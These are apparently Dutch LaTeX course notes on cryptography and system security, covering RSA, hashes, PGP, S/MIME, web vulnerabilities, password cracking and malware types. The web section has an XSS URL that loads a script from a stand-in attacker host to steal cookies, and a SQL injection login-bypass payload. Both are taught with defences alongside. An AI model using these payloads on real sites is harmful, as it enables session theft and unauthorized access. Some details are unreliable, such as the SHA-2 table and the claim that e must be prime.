	\textbf{Rivest-Shamir-Adleman (RSA)} is een asymmetrisch encryptiealgoritme waarbij de sleutelgrootte typisch \textbf{512, 1024, 2048 of 4096} bits bedraagt. Het encryptie- en decryptieproces voeren dezelfde wiskundige operaties uit. De veiligheid van het algoritme ligt aan het feit dat het ontbinden in factoren van het product van 2 priemgetallen $p$ en $q$ moeilijk is. De sleutel genereren begint met twee priemgetallen $p$ en $q$, waarvan het product $n = p\cdot q$ wordt berekend. De priemgetallen $p$ en $q$ zijn \textbf{privaat}, het getal $n$ is \textbf{publiek}. Op $n$ wordt de Eulers totiënt functie losgelaten. Aangezien dat $p$ en $q$ beiden priemgetallen zijn is dit eenvoudig: $$\phi(n) = (p - 1) \cdot (q - 1)$$ \accentuate{($\phi(n)$ geeft het aantal getallen terug in het bereik $[1, n]$ die relatief priem (grootst gemene deler = 1) zijn ten opzichte van $n$. Bij een priemgetal zal elk positief getal, kleiner dan het priemgetal, de grootst gemene deler altijd 1 zijn)}
	
	De berekende waarde $\phi(n)$ is \textbf{privaat}. Verder wordt een getal $e$, dat ook \textbf{publiek} is, gekozen zodat $$gcd(\phi(n), e) = 1 \;\hbox{en}\; 1 < e < \phi(n)$$
	Dit wil dus zeggen dat $e$ ook een priemgetal moet zijn. Vaak wordt $e = 65537 = 2^{16} + 1$ gekozen, omdat hier maar $2$ bits aanstaan zodat encryptie/decryptie sneller is.
	Tot slot wordt $d$ gelijkgesteld aan het multiplicatieve inverse van $e$ module $\phi(n)$.
	$$d = e^{-1} \mod \phi(n)$$

	De publieke sleutel bestaat dan uit $e$ en $n$: $KU=\langle e, n \rangle$

	De private sleutel bestaat uit $d$ en $n$: $KR=\langle d, n \rangle$

	\underline{Voorbeeld}

	Stel $p = 13$ en $q = 19$. Het product wordt dan $p \cdot q = 247 = n$.

	$\phi(n) = (13 - 1) \cdot (19 - 1) = 12 \cdot 18 = 216$

	Stel nu $e = 5$ want $gcd(\phi(n), e) = gcd(216, 5) = 1$ en $1 \leq e \leq \phi(n)$

	$d = 5^{-1} \mod 216 = 173$

	$KU = \langle 5, 247 \rangle$

	$KR = \langle 173, 247 \rangle$

	Gegeven een bericht $M = 71$

	Encryptie: $C = 71^5 \mod 247 = 67$

	Decryptie: $M = 67^{173} \mod 247 = 71$

	Er kan ook een handtekening gemaakt worden met de private sleutel: $S = M^{d} \mod n$. De handtekening verifiëren gebeurd dan met de publieke sleutel: $M = S^{e} \mod n$.

	\subsection{Andere asymmetrische algoritmen}
	\todo{niet belangrijk}
	\section{Hashalgoritmen}
	Een hashfunctie $H$ bewerkt een bepaald bericht $M$ zodat $H(M) = h$. Hierbij wordt er op voorhand vastgelegd hoeveel bits $h$ zal hebben. Zo zal $MD5$ een hashwaarde van 128 bits genereren, en $SHA1$ een hashwaarde van 160 bits. Een hash wordt gebruikt om wijzigingen te detecteren in een bericht, aangezien dat een wijziging in het bericht ook een andere hashwaarde zal opleveren.

	\underline{Het verschil met encryptiealgoritmen}
	\begin{itemize}
		\item[\info] Een hashalgoritme is performanter, omdat ze een andere functie hebben. Ze dienen niet om een bericht te encrypteren, want een hashfunctie kan niet gedecrypteerd worden.
		\item[\info] De sleutelgrootten en datablokken bij hashfuncties zijn veel groter dan die van encryptiealgoritmen. Hashfuncties kunnen ook van sleutel verwisselen per datablok.
		\item[\info] Hashalgoritmen zijn resistent tegen sleutel-gebaseerde aanvallen.
	\end{itemize}

	\subsection{MD5}
	\textbf{Message Digest (MD5)} genereert hashwaarde met grootte \textbf{128 bits}. Dit aantal bits is eigenlijk niet genoeg om \textbf{strong collision resistance} te hebben, en wordt daarom niet als een goed hashalgoritme beschouwd. De uitwerking van dit hashalgoritme is dan ook niet interessant.
	\subsection{SHA1}
	Dit hashalgoritme genereert een hashwaarde die \textbf{160 bits} bevat. De \textbf{strong collision resistance} requirement is hier al veel beter, maar cryptoanalyse heeft did hashalgoritme ook in meerwaarde doen dalen en is ook trager dan $MD5$. Het hashalgoritme werkt op blokken van \textbf{512 bits}.
	\subsection{SHA2}
	Deze uitbreiding op $SHA1$ omvat eigenlijk 4 versies, die best in een tabel kunnen beschreven worden:
	\begin{table}[ht]
		\centering
		\begin{tabular}{l | l | l}
			Versie & grootte datablok & outputgrootte \\
			\hline
			SHA224 & 224 bits & 512 bits \\
			SHA256 & 256 bits & 512 bits \\
			SHA384 & 384 bits & 1024 bits \\
			SHA512 & 512 bits & 1024 bits \\
		\end{tabular}
	\end{table}


	\section{MAC-algoritmen}
	Een MAC kan niet gebruikt worden als een encryptiealgoritme, omdat het net zoals een hash een onomkeerbaar proces is. 
	\subsection{CBC-MAC}
	Een symmetrische encryptie van het hele bericht met behulp van de CBC-mode. Het laatste blok wordt gebruikt als de MAC. Deze implementatie kan dus gebruik maken van een symmetrisch encryptiealgoritme zoals DES en AES.
	\subsection{HMAC}
	\todo{onbelangrijk}

	\chapter{Software- en systeembeveiliging}
	\section{Veilige applicaties}
	\subsection{Email}
	\subsubsection{PGP}
	Staat voor Pretty Good Privacy en biedt beveiligingtools voor dataopslag en emailverkeer. Het maakt gebruik van betrouwbare algoritmen zoals AES, RSA en SHA1.
	
	\underline{Een sleutelpaar aanmaken} gebeurd op basis van de identiteit, de geldigheidsperiode en een paszin. Er zijn twee mogelijkheden:
	\begin{itemize}
		\item[\info] Een sleutelpaar voor de digitale handtekening. Dit wordt ook wel de \emph{master key} genoemd. 
		\item[\info] Eén of meer sleutelparen voor encryptie. Deze worden \emph{subkeys} genoemd. 
	\end{itemize}

	\underline{Om authenticate te garanderen}, moet de \textbf{verzender} volgende acties ondernemen:
	\begin{itemize}
		\item[\info] Genereer een hashwaarde van het bericht.
		\item[\info] Encrypteer deze hashwaarde met een asymmetrisch encryptiealgoritme met de private sleutel van de verzender.
		\item[\info] Optioneel kan dit bericht nog gecompresseerd worden en omgevormd worden tot een radix-64 formaat.
	\end{itemize}
	De verzender stuurt nu het plaintext bericht, samen met de geëncrypteerde sleutel naar ontvanger. De \textbf{ontvanger} van dit bericht onderneemt dan volgende stappen:
	\begin{itemize}
		\item[\info] De optionele conversie van radix-64 en de compressie uitvoeren.
		\item[\info] De hashwaarde moet gedecrypteerd worden met de publieke sleutel van de verzender.
		\item[\info] De verzender berekend nu ook de hashwaarde van het bericht, en vergelijk dit met de gedecrypteerde hash. 
	\end{itemize}
	Als de hashes gelijk zijn, dan is het bericht geauthenticeerd. Zijn de hashes niet gelijk, dan werd het bericht niet geëncrypteerd door de verzender die verwacgt wordt.

	\underline{Om confidentialiteit te garanderen}, moet de \textbf{verzender} volgende acties ondernemen:
	\begin{itemize}
		\item[\info] Genereer een sessiesleutel, dat enkel geldig is voor het huidig bericht.
		\item[\info] Optioneel wordt het bericht gecompresseerd.
		\item[\info] Het bericht wordt geëncrypteerd met een symmetrisch encryptiealgoritme met de sessiesleutel in CFB mode.
		\item[\info] De sessiesleutel wordt ook geëncrypteerd met de ontvanger zijn publieke sleutel, gebruik makend van een asymmetrisch encryptiealgoritme.
		\item[\info] Optioneel wordt het bericht geconverteerd naar radix-64 formaat.
	\end{itemize}
	Het geëncrypteerde bericht kan nu verzonden worden naar de \textbf{ontvanger}, die nu volgende stappen overloopt:
	\begin{itemize}
		\item[\info] Eventueel de radix-64 transformatie ongedaan maken.
		\item[\info] De sessiesleutel wordt gedecrypteerd met de private sleutel van de ontvanger.
		\item[\info] Het bericht kan nu gedecrypteerd worden met deze sessiesleutel.
		\item[\info] Optioneel wordt het bericht gedecompresseerd.
	\end{itemize}

	\underline{Hoe kunnen authenticatie en confidentialiteit gecombineerd worden?}

	\begin{itemize}
		\item[\info] Eerst wordt authenticatie toegevoegd. Dit bericht wordt dan geëncrypteerd. 
	\end{itemize}
	Omdat een gebruiker meerdere encryptiesleutelparen kan hebben, moet er een eenvoudige manier bestaan om de juiste op te halen. Daarvoor wordt een sleutel geïdentificeerd door 64 bits, zodat er $2^{64}$ mogelijke sleutels zijn, met als gevolg dat de kans op collisie klein is. Het is dan ook eenvoudig om de juiste sleutel op te halen, op basis van deze 64 bits. PGP bewaard deze sleutels in \textbf{twee sleutelhangers}. De publieke sleutelhanger en de private sleutelhanger.
	\begin{itemize}
		\item[\info] \textbf{Private sleutelhanger}: Deze houdt volgende informatie bij per sleutel:
		\begin{itemize}
			\item De 64 bit identificatie.
			\item De correspondeerde publieke sleutel.
			\item De private sleutel, geëncrypteerd met een symmetrisch encryptiealgoritme.
			\item Een identificatie van de gebruiker.
		\end{itemize}

		Bij het aanmaken van een private sleutel wordt er gebruik gemaakt van een paszin. Op basis van deze paszin wordt er een tijdelijke sleutel aangemaakt die gebruikt zal worden van deze encryptie. Om zo een private sleutel te decrypteren, moet deze paszin opnieuw ingegeven worden, zodat dezelfde tijdelijke sleutel kan gegenereerd worden.

		\item[\info] \textbf{Publieke sleutelhanger}: Deze houdt volgende informatie bij per sleutel:
		\begin{itemize}
			\item De 64 bit identificatie.
			\item De publieke sleutel
			\item Een identificatie van de gebruiker.
			\item Informatie over de betrouwbaarheid van de sleutel.
			\item Digitale handtekeningen van andere gebruikers van deze sleutel.
			\item Informatie over de betrouwbaarheid van deze digitale handtekeningen.
		\end{itemize}

		De publieke sleutelhanger van een gebruiker, bevat dus publieke sleutels van andere gebruikers. De publieke sleutelhanger is echter niet publiek voor andere gebruikers, maar enkel voor de eigenaar.
	\end{itemize}

	PGP doet heel veel beroep op \underline{vertrouwen}. Hier kunnen \underline{drie aspecten} betrokken worden:
	\begin{itemize}
		\item[\info] \textbf{Vertrouwen in de eigenaar van de publieke sleutel}: Zo zijn er verschillende niveaus zoals: \emph{ultimate trust}, \emph{always to be trusted to sign other keys}, \emph{usually to be trusted to sign other keys}, \emph{usually not to be trusted to sign other keys}. Ultimate trust en 'always to be trusted' lijken op het eerste zicht op elkaar, maar ultimate trust dient enkel voor sleutels die ook in de private sleutelhanger zitten.
		\item[\info] \textbf{Vertrouwen in de digitale handtekening van een publieke sleutel}: PGP zal de betrouwbaarheid van de eigenaar die de handtekening gezet heeft opzoeken.
		\item[\info] \textbf{Vertrouwen in de link tussen de eigenaar en een publieke sleutel}: PGP zal periodiek een betrouwbaarheidsniveau aangeven op basis van de digitale handtekeningen op deze publieke sleutel.
	\end{itemize}

	Een sleutel $x$ is \underline{compleet geldig als}:
	\begin{itemize}
		\item[\info] er een pad bestaat van gesigneerde sleutels die terug naar $x$ verwijst in 5 stappen of minder.
		\item[\info] $x$ getekend werd door voldoende andere sleutels.
	\end{itemize}

	\subsubsection{S/MIME}
	\textbf{Multipurpose Internet Mail Extensions (MIME)} beschrijft een formaat voor de inhoud van een email die de limitaties van \textbf{RFC 822} en \textbf{SMTP} oplost, maar toch compatibel blijft met \textbf{RFC 822}. \textbf{Securei Multipurpose Internet Mail Extension (S/MIME)} voegt extra beveiligingselementen toe.

	Een standaard \textbf{RFC 822} bericht bestaat uit een aantal header lines zoals \textbf{from}, \textbf{to} en \textbf{subject}, gevolgd door een lege lijn en de body van het bericht. Deze standaard in combinatie met \textbf{SMTP} heeft volgende problemen:
	\begin{itemize}
		\item[\alert] Ondersteund slechts 7-bit ASCII karakters.
		\item[\alert] Het versturen van executables is moeilijk.
		\item[\alert] Er bestaat geen standaardimplementatie van SMTP.
		\item[\alert] Sommige servers converteren de berichten (tabs naar spaties, CR LF naar LF, whitespace verwijderen, ...)
	\end{itemize}

	\textbf{MIME} definieert \underline{vijf nieuwe headers}:
	\begin{itemize}
		\item[\info] \texttt{MIME-VERSION}
		\item[\info] \texttt{CONTENT-TYPE}: beschrijving van de structuur van de inhoud, zodat de ontvanger de juiste conversiemethode kan kiezen. Een aantal voorbeelden zijn: \begin{itemize}
			\item text/plain
			\item image/jpeg, image/gif
			\item video/mpeg
			\item audio/basic
			\item text/enriched
			\item multipart/mixed
			\item application/octet-stream
		\end{itemize}
		\item[\info] \texttt{CONTENT-TRANSFER-ENCODING}: laat toe om het bericht om te vormen naar een formaat dat accepteerbaar is voor emailverkeer. Voorbeelden zijn:
		\begin{itemize}
			\item 7bit
			\item 8bit
			\item binair
			\item base64
			\item x-token
		\end{itemize}
		\item[\info] \texttt{CONTENT-ID}
		\item[\info] \texttt{CONTENT-DESCRIPTION}: beschrijving van de inhoud van het bericht. Wordt meestal gebruikt wanneer de inhoud nietleesbaar is, zoals audio.
	\end{itemize}

	\textbf{S/MIME-functies}:
	\begin{itemize}
		\item[\info] Enveloped data: de inhoud en sleutels worden geëncrypteerd voor 1 of meerdere gebruikers.
		\item[\info] Signed data: het bericht krijgt een digitale handtekening. Zowel de inhoud als deze handtekening worden geëncodeerd in base64.
		\item[\info] Clear-signed data: zelfde als signed data, maar enkel de handtekening wordt geëncodeerd in base64. Dit heeft als gevolg dat een ontvanger zonder S/MIME het bericht wel kan lezen, maar niet kan verifiëren.
		\item[\info] Signed and enveloped data: combinatie van encryptie en digitale handtekening.
	\end{itemize}
	Door deze functies kan S/MIME nieuwe content-types definieren:
	\begin{itemize}
		\item[\info] multipart/signed: clear signed data
		\item[\info] application/pkcs7-mime: signed data, enveloped data of een entiteit met enkel publieke sleutels (degenerate signed data), afhankelijk van de parameter.
		\item[\info] application/pkcs7-signature: enveloped data
		\item[\info] application/pkcs10-mime: certificaatregistratie nodig
	\end{itemize}

	De \underline{S/MIME procedure}:
	\begin{enumerate}
		\item MIME bericht wordt aangemaakt.
		\item Bericht wordt omgevormd tot een PKCS object, die onder andere de gebruikte algoritmen en certificaten bevat.
		\item PKCS object wordt gezien als een message body, en wordt verpakt in MIME.
		\item Het bericht moet omgevormd worden naar canonieke vorm.
	\end{enumerate}

	\subsection{Webapplicaties}
	\subsubsection{Kwetsbaarheden}
	\begin{itemize}
		\item[\info] \textbf{Slechte configuratie}: Gebruik maken van oude software, paswoorden die makkelijk te raden zijn, source code die gedownload kan worden.
		\item[\info] \textbf{Client-side}: De client-side vertrouwen is een slechte zaak. Het is eenvoudig om met javascript manipulaties uit te voeren. Controleer elke actie op de server-side.
		\item[\info] \textbf{Direct object reference}: De applicatie bevat resources die enkel mogen gezien worden voor een geautoriseerde gebruiker, maar iedereen kan eigenlijk gewoon de URL intypen.
		\item[\info] \textbf{Authenticatiefouten}: Het gebruik van zwakke paswoorden, die gekraakt kunnen worden met een brute-force methode. Ook als een gebruiker een fout paswoord, maar wel een juist username intypt, moet de applicatie toch tonen dat het ofwel een fout paswoord of fout usernaam is.
		\item[\info] \textbf{Cross-site scripting (XSS)}: XSS werkt goed bij zwakke webservers. Een aanvaller kan code injecteren, zodat normale gebruikers die code zullen uitvoeren wanneer ze de zwakke webserver bezoeken. \underline{X voorbeelden:}
		\begin{enumerate}
			\item Een webserver laat toe om queries in te geven. Gebruikers kunnen inloggen met hun username en paswoord. Er wordt een cookie bijgehouden die de sessie bijhoudt. Bij een foute query, zoals 
			$$\texttt{http://web.org?q=puppies}$$ zal de webserver een foutmelding geven:
			$$\texttt{Error - puppies not found}$$
			Een aanvaller probeert nu na te gaan of deze webserver gevoelig is aan XSS aanvallen. Hij verandert de query:
			$$\texttt{http://web.org?q=<script type='text/javascript'>alert('xss');</script>}$$
			Na uitvoering van deze query, verschijnt er een popup op het venster met 'xss', alsook een melding:
			$$\texttt{Error - <script type='text/javascript'>alert('xss');</script> not found}$$
			De aanvaller weet nu dat hij een XSS aanval kan uitvoeren. De query valideert de input namelijk niet, zodat er eender wat kan staan. De aanvaller construeert een URL, waarbij de query een script is dat de cookies van de ingelogde gebruiker ophaalt en doorstuurt naar de aanvaller zijn server, zoals:
			$$\texttt{http://web.org?q=<script src="http://badserver.com/script.js"></script>}$$
			De aanvaller verstuurt deze (gemaskeerde) URL naar gebruikers. Elke gebruiker die daar nu op klikt, zal dat script uitvoeren op zijn browser. Als de administrator van de webserver op deze link klikt, krijgt de aanvaller toegang tot dit adminaccount.

			\begin{itemize}
				\item[\info] De server kan dit voorkomen door input te valideren, ongeldige queries te redirecten, meerdere logins op hetzelfde accounts invalideren.
				\item[\info] De client kan dit enkel voorkomen door op de hoogte te zijn van zulke aanvallen, en niet op vreemde links te klikken van onbekenden.
			\end{itemize}
			\item Een forum laat toe om nieuwe posts te maken en hierop te reageren. Een reactie wordt ingegeven in een bepaald inputveld. Een aanvaller merkt nu op dat dit inputveld ook HTML tags kan bevatten, met als gevolg dat er ook scripts kunnen uitgevoerd worden. Een aanvaller kan nu hetzelfde script gebruiken om cookies te stelen van vorig scenario. Elke gebruiker die nu naar de pagina surft waar die reactie staat, zal dat script uitvoeren op zijn browser, met als gevolg dat de aanvaller de sessies kan hijacken. Gebruikers hebben hier zelfs geen weet van dat dit op de achtergrond aan het draaien is.
			\begin{itemize}
				\item[\info] Het forum moet, als het HTML tags toelaat, de script tags uit de reactie halen.
			\end{itemize}
			\item 
		\end{enumerate}

		XSS kan onder andere gebruikt worden voor: cookie stealing, website redirection, phishing, privacy violation, javascript malware, ...
		\item[\info] \textbf{SQL Injection}: Een bepaalde HTTP request kan iets opvragen uit een databank. Stel dat we willen inloggen, dan versturen we een username en paswoord (wordt nooit gedaan via een query string, maar maakt het voorbeeld iets eenvoudiger. Het paswoord wordt geëncrypteerd via TLS):
		$$\texttt{POST /login?u=foo\&p=bar}$$
		De gebruiker ophalen in een SQL databank:
		$$\texttt{SELECT * FROM users WHERE username = 'foo'}$$
		De aanvaller kan proberen om de \texttt{WHERE} clausule te omzeilen, door eigen SQL code te injecteren:
		$$\texttt{POST /login?u='+OR+1<2\#\&p=bar}$$
		De SQL code ziet er nu zo uit:
		$$\texttt{SELECT * FROM users WHERE u = '' OR 1 < 2\#}$$
		Het \# symbool zorgt ervoor dat alles erna als comentaar beschouwd wordt. Deze uitspraak is natuurlijk altijd waar, zodat alle gebruikers teruggestuurd worden naar de aanvaller.
		
		\item[\info] \textbf{Cross-site request forgery (CSRF)}:
	\end{itemize}
	\subsubsection{Verdedigmogelijkheden}
	Er bestaan meerdere manieren om een webserver te beschermen:
	\begin{itemize}
		\item[\info] Risicoanalyse.
		\item[\info] Security training personeel.
		\item[\info] Code review.
		\item[\info] Testing.
	\end{itemize}
	De meer technische details:
	\begin{itemize}
		\item[\info] Alle input valideren. Maak hiervoor gebruik van een whitelist van gekende en betrouwbare waarden. Een blacklist is moeilijk om juist te krijgen, omdat er dan kennis nodig is over elke mogelijke waarde ooit. Voor SQL kan je gebruik maken van prepared statements, zodat het statement opgeslagen wordt in de databank zelf.
	\end{itemize}
	\section{Veilige systemen}
	\subsection{Authenticatiemethoden}
	\subsubsection{Paswoorden}
	Een paswoord kan voor praktisch alles gebruikt worden. De meest gebruikte applicaties zijn: inloggen op een computer, inloggen op een website, PIN code voor betaalkaarten, enz. Een paswoord wordt typisch niet in plaintext opgeslagen, maar wordt gehashed. Op die manier zijn paswoorden niet verloren wanneer de databank in de handen van een aanvaller komt. Het voordeel van een paswoord is dat het een 
	\begin{itemize}
		\item[\good] eenvoudig mechanisme is en,
		\item[\good] genoeg veiligheid biedt voor meeste applicaties. 
	\end{itemize}
	Er zijn ook nadelen aan verbonden:
	\begin{itemize}
		\item[\alert] Het wordt afgeraden om éénzelfde paswoord te gebruiken voor meerdere applicaties. Anderzijds is het moeilijk om elk verschillend paswoord te onthouden.
		\item[\alert] Makkelijk te raden paswoorden worden nog te vaak gebruikt.
	\end{itemize}
	Paswoorden kraken is dan ook een belangrijk topic, aangezien een paswoord tot veel informatie kan leiden. Er zijn meerdere redenen om een paswoord te kraken. Soms kan het zijn dat je een eigen paswoord vergeten bent, en dat je deze terug wilt. Het kan ook handig zijn om de veiligheid van paswoorden na te gaan in een bedrijf door deze te kraken. De laatste categorie is natuurlijk de slechtste, paswoorden kraken om gevoelige informatie te bemachtigen. Een paswoord kraken kan op verschillende manieren:
	\begin{itemize} 
		\item[\info] \textbf{Brute force attack:} Een brute force aanval is zelden bruikbaar. Elke permutatie van bits uitproberen is enkel nuttig bij een klein aantal bits. Er bestaan wel methoden om de snelheid van een brute force aanval te verbeteren. Het gebruik van een GPU kan de snelheid met een factor 50 tot 100 vergroten. Ook kunnen computers geparalleliseerd werken.
		\item[\info] \textbf{Dictionary attack:} Deze methode maakt gebruik van een voorgedefinieerde lijst van vaak gebruikte paswoorden. Er kan een trade-off gemaakt worden tussen het gebruik van berekende hashes voor die paswoorden en de tijd die men daarin wil steken. Varianten van deze aanval zal de lijst uitbreiden met kleine wijzigingen voor elk paswoord.
		\item[\info] \textbf{Hash chaining:} Een hash chain is een opeenvolging van hash- en reductiefuncties:
		$$aaaaaa \rightarrow_{\substack{H}} 281DAZF40 \rightarrow_{\substack{R}}  sgfnyd \rightarrow_{\substack{H}}  920ECF10 \rightarrow_{\substack{R}}  kiebgt$$
		Enkel het eerste en het laatste paswoord worden opgeslaan, als een paar $aaaaaa \rightarrow kiebgt$. Stel nu dat we een hash $920ECF10$ hebben, als we hier de reductiefunctie op loslaten krijgen we $kiebgt$.  In onze tabel zoeken we op of er een bepaalde hash chain eindigt op $kiebgt$, in dit geval start deze chain met $aaaaaa$. We voeren dezelfde bewerking uit en zo zal blijken dat het paswoord $sgfnyd$ is. In praktijk wordt er een lijst bijgehouden van vaak gebruike paswoorden samen met hun hash chain. De reductiefunctie kiezen is moeilijk, omdat ze moet resulteren in waarschijnlijke paswoorden. Een ander nadeel is dat erveel valse alarmen zijn. Dit wil zeggen dat een andere chain dezelfde hash uitkomt. \todo{slide16}
	\end{itemize}
	\subsubsection{Biometrieken}
	\subsubsection{Security tokens}
	\subsection{Vertrouwd besturingssysteem}

	\begin{table}[ht]
		\centering
		\begin{tabular}{c c c}
			Veilig & $\neq$  & Vertrouwd \\

			Iets is ofwel veilig of niet veilig & & Een vertrouwd systeem kent gradaties en is vaak relatief
		\end{tabular}
	\end{table}

	Een besturingssysteem \underline{is vertrouwd} indien het \underline{consistent}:
	\begin{itemize}
		\item geheugen kan afschermen,
		\item toegangscontrole ondersteund,
		\item gebruikers kan authenticeren.
	\end{itemize}

	Een \underline{policy} moet gedefinieerd worden vooraleer er kan nagegaan worden ofdat een besturingssysteem vertrouwd is of niet. Een voorbeeld hiervan is een \underline{militair beveiligingsmodel} (unclassified, restricted, confidential, secret, top secret). Het wil uiteraard niet zeggen dat als iemand toegang heeft tot 'secret', dat die dan alle informatie van de 'secret', 'confidential', 'restricted' en 'unclassified' tak kan bekijken. Er komt nog een bijkomende \underline{toegangscontrole}. Elk stukje informatie kan gelinkt worden aan een \underline{compartiment} (informatie die bij elkaar hoort, bv informatie over een bepaalde bom).
	
	\underline{Voorbeeld}: De informatie $<$secret, België$>$ kan gelezen worden door iemand met $<$top secret, België$>$, $<$secret, België$>$, maar niet door iemand met $<$top secret, Nederland$>$. Een stukje informatie kan in meerdere compartimenten zitten.

	Er bestaand \underline{drie toegangscontrolemethoden}:
	\begin{itemize}
		\item \textbf{DAC (Discretionary Access Control)}: De gebruiker die de informatie aanmaakt is ook de eigenaar. Deze gebruiker bepaalt dan ook wie de informatie mag zien. 
		\item \textbf{MAC (Mandatory Access Control)}: Enkel de administrator bepaalt de rechten van de informatie. Dit brengt veel overhead mee voor de administrator zelf.
		\item \textbf{RBAC (Role-Based Access Control)}: Elke gebruiker bevindt zich in een een groep of heeft een bepaalde rol. Deze rollen/groepen krijgen authorisaties toegekend. 
	\end{itemize}

	\todo{os kernel}

	\subsection{Schijfencryptie}
	= het encrypteren van de harde schijf. Dit zit ofwel standard in het besturingssysteem, of kan via een softwareapplicatie gerealiseerd worden.

	Er zijn \underline{drie manieren om een schijf te encrypteren}:
	\begin{itemize}
		\item \textbf{Manueel}: Laat de gebruiker zelf toe om individuele bestanden of mappen te encrypteren. Een voorbeeld hiervan is $PGP$.
		\item \textbf{Filesystem-level}: Het bestandssysteem zal zelf bestanden encrypteren en decrypteren. Een toepassing hiervoor is het gebruik van shares (onedrive, google drive, lokale share ergens, ...). De bestanden of mappen die geëncrypteerd zijn, zullen ook op die shares in geëncrypteerde vorm staan. Deze methode zal metadata (eigenaar, laatst gewijzigd, grootte) niet encrypteren.
		\item \textbf{Volledige schijfencryptie}: Deze methode encrypteert heel de schijf, inclusief metadata en tijdelijke bestanden. Het staat wel open voor een aantal aanvallen zoals een \underline{cold boot aanval}: het geheugen uitlezen van het RAM door het systeem te resetten, want de databits in het geheugen blijven voor een beperkte tijd bestaan ook al is het toestel uitgezet. Een andere aanvalsvector zijn keyloggers.
	\end{itemize}
	Mogelijke \underline{features van schijfencryptie} zijn:
	\begin{itemize}
		\item \textbf{Plausible deniability}: Encryptie zorgt ervoor dat iemand niet kan bevestigen dat de plaintext informatie bestaat.
		\item \textbf{Hidden containers}: op basis van een wachtwoord slechts een deel van het bestandssysteem beschikbaar maken.
		\item \textbf{Pre-boot authentication}: Vooraleer de bootprocedure begint al authenticeren. Op deze manier is er geen toegang meer tot de BIOS.
		\item \textbf{Hardware acceleration}: Een extra chip inschakelen die de encryptie op zich neemt zodat het proces versnelt worden.
		\item \textbf{Two-factor authentication}
	\end{itemize}


	\section{Veilige software}
	\subsection{Malware}
	= \textbf{Mal}icious soft\textbf{ware}. Een systeem kan nog zo goed beveiligd zijn, slechts één malware applicatie is voldoende om een systeem onveilig te maken.

	Een aantal \underline{voorbeelden van malware}:
	\begin{itemize}
		\item \textbf{Logische bom}: Een logische bom wordt pas geactiveerd nadat er een bepaald predikaat voldaan is. Deze soort malware wordt vaak intern ontworpen en geplaatst als wraak.
		\item \textbf{Backdoor}: Een backdoor is een manier om een bepaalde toegangscontroleprocedure te omzeilen. Zulke backdoors worden vaak gebruikt om de software te testen, maar wordt daarna niet meer verwijderd uit vergeetachtigheid of luiheid. Het kan ook geïnstalleerd woorden door malware. Een voorbeeld hiervan is een linux kernel update in 2003. Een functie moest het paswoord vergelijken, maar gebruikte de toekenningsoperator ($=$)  in plaats van de vergelijkingsoperator ($==$). Een toekenning is altijd true.
		
		Er bestaan verschillende \underline{soorten backdoors}: 
		\begin{itemize}
			\item \emph{Software backdoor}: Deze worden geplaatst in de code zelf.
			\item \emph{Machinecode backdoors}: Deze worden geplaatst in de machinecode omdat ze dan moeilijker te detecteren zijn.
			\item \emph{Assymetrische backdoors}: Een assymetrische backdoor laat enkel toe dat de eigenaar van de backdoor toegang krijgt (kleptografie). Een voorbeeld hiervan is de NSA backdoor in de \texttt{Dual\_EC\_DRBG} standaard. Deze elliptische krommen gebruik je dus best niet.
			\item \emph{Compiler backdoors}
		\end{itemize}
		\item \textbf{Trojaans paard}: Software kan doen alsof het nuttig is en goede intenties heeft, maar dat dit eigenlijk niet is. Dit soort malware hoopt dat gebruikers de software zullen uitvoeren als administrator. Een trojaans paard wordt vaak gebruikt om andere soorten malware te injecteren.
		\item \textbf{Spyware}: Deze software is passief en zal pogingen ondernemen om gevoelige informatie te bemachtigen. Niet alle virusscanners verwijderen spyware om juridische redenen. Spyware werd vroeger niet gezien als malware, en reclamebureaus hadden hier baat bij. Meer recent laten virusscanners wel toe om spyware te verwijderen, maar met verminderde functionaliteit (of extra betalingen).
		\item \textbf{Adware}: Het vervangen en manipueren van advertenties zodat de aanvaller meer opbrengst krijgt. Als je bijvoorbeeld 'Colruyt' opzoekt, dat je reclame krijgt over Carrefour. 
		\item \textbf{Ransomware}: Een deel of het volledige bestandssyteem encrypteren. In ruil voor geld zal ransomware de geëncrypteerde bestanden terug decrypteren. Sommige ransomware, dat niet meer ondersteund is, wordt jammer genoeg nog steeds verspreidt. Gebruikers die dus betalen zullen hun bestanden niet kunnen decrypteren, en zijn hun geld kwijt. Als je toestel door ransomware aangevallen is, kan je beter naar de politie gaan aangezien zij voor de populaire ransomware applicaties over decryptiesleutels beschikken.
		\item \textbf{Scareware}: Dit heeft de bedoeling om de gebruiker af te schrikken met boodschappen zoals 'Het toestel bevat illegale content' of 'Windows is niet meer geactiveerd, betaal nu om te heractiveren'.
		\item \textbf{Virus}: Een virus heeft als eigenschap dat het zichzelf kan verspreiden. Een virus blijft een lange periode stil, om dan na een bepaalde activiation trigger de virus actief te zetten.
		\item \textbf{Worm}: Een worm is een subset van een virus, in de mate dat het geen menselijke interactie nodig heeft om te verspreiden. Een worm zal automatisch pogingen ondernemen om zich te verspreiden over het netwerk. Traditioneel is het gebruik van e-mail applicaties, standaardpaswoorden en bepaalde transportprotocollen. Een worm wordt vaak gebruikt om een botnet op te zetten, die dan gebruikt kan worden om DDoS aanvallen uit te voeren.
	\end{itemize}

	Al deze vormen van malware, kunnen via \underline{één of meerdere aanvalsvectoren} binnendringen:
	\begin{itemize}
		\item \textbf{Social Engineering}: De malware doet zich voor als een betrouwbaar programma, vaak door de extentie te verbergen (I\_LOVE\_YOU.txt.vbs)
		\item \textbf{Besturingssysteem}: Aanvallers doen geen moeite om obscure besturingssystemen te infecteren. Vaak zijn het populaire besturingssystemen (Windows, linux, macOS).
		\item \textbf{Software exploits}: Door fouten in softwareapplicatie zoals e-mail programmas.
		\item \textbf{Buffer overflow}: Op het einde van een fuctie worden de inputwaarden in een buffer gestoken. Indien deze buffer te groot is, wordt de stack en het returnadres overschreven. De buffer bevat dan een nieuw returnadres naar het start van de malware code (zie slide 27 C05c). Om dit tegen te gaan wordt het geheugen opgesplitst in het executable en niet-executable deel. Verder wordt ook de adresruimte gerandomiseerd.
		\item \textbf{Macro virus}: In bijvoorbeeld de Microsoft Office suite kunnen macros geschreven worden die automatisch kunnen uitgevoerd worden wanneer het document geopened wordt. Microsoft heeft dit aangepast zodat macros default niet aan staan.  
	\end{itemize}

	Malware doet er alles aan om \underline{niet gedetecteerd te worden}, onder andere door gebruik te maken van volgende technieken:
	\begin{itemize}
		\item Ervoor zorgen dat de 'last modified date' niet aangepast wordt (in windows is het mogelijk om het last modified date attribuut van een bestand programmatisch aan te passen).
		\item Ervoor zorgen dat de grootte van een bestand niet gewijzigd wordt. 
